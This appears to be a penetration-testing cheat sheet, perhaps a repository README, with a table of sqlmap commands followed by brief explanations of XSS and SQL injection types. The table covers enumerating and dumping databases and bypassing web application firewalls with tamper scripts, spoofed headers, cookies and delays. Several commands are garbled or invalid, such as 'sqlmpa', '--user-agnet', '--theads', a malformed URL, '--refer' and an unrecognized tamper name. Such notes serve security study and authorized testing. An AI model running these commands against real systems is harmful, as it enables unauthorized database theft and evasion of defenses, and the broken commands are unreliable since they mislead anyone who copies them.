 | SQLmap | Command/Examples |
|--------|------------------|
| Run on a single URL | sqlmap -u "http://test.com" |
| Run on a single parameter | sqlmap -p <parameter> -u "http://test.com" |
| Enumerate Databases | sqlmap -u "http://test.com" --dbs |
| Enumerate Tables | sqlmap -u "http://test.com" -D <db_name> --tables |
| Enumerate Columns | sqlmap -u "http://test.com" -D <db_nmae> -T <table_name>  --columns |
| Dump data | sqlmap -u "http://test.com" -D <db_name> -T <table_nmae> --dump |
| Use a Proxy | sqlmap -u "http:/test.com" --proxy="http://proxy_ip:proxy_port" |
| Set User Agent | sqlmpa -u "http://test.com" --user-agnet="CustomAgent" |
| Set Level | sqlmap -u "http://test.com" --level=<level> |
| Set Threads | sqlmap -u "http://test.com" --theads=<num> |
| WAF Bypass | sqlmap -u "http://test.com" --tamper=<script> |
| Exit or Error | sqlmap -u "http://test.com" --ignore-errors |
| WAF Bypass using cookie | sqlmap -u"http://test.com" --cookie="Cookie_data" |
| WAF Bypass using user-agent | sqlmap -u "http://test.com" --user-agent="Cuteom_agent" |
| WAF Bypass using Refer Header | sqlmap -u "http://test.com" --refer="http://refer.com" |
| WAF bypass with delays | sqlmap -u "http://test.com" --delay=5 |
| WAF Bypass with Custom Payload | sqlmap -u "http://test.com" --tamper="random_case" |

---
# What is cross-site scripting?

Attacker inject malicious script into trusted websites, which then execute in the victim's browser potenially leading to session hijackiing or data theft.

1. **Reflected XSS** – Malicious script is injected into a request (e.g., URL) and reflected in the response. It is not stored on the server.  
2. **Stored XSS** – The script is permanently stored on the server (e.g., in a database) and executed when users visit the affected page.  
3. **DOM (Document Object Model) -Based XSS** – The attack manipulates the page’s DOM using JavaScript without involving the server, executing malicious code dynamically in the browser.  


---
# What is SQl Injection ?

Attacker insert malicious sql code into a web application database query allowing them maipulate or gain unauthrised access to the database.
1. **Boolean-Based SQLi** – Exploits conditional responses (true/false) to infer database information.  
2. **Time-Based SQLi** – Uses delays (e.g., `SLEEP()` function) to determine if a query is vulnerable.  
3. **Error-Based SQLi** – Extracts data by triggering database error messages.  
4. **Union-Based SQLi** – Uses `UNION` statements to fetch additional data from different tables.  
5. **Blind SQLi** – The attacker receives no direct feedback but determines information through indirect observations.  
6. **Out-of-Band SQLi** – Uses external channels (e.g., DNS or HTTP requests) to exfiltrate data.  
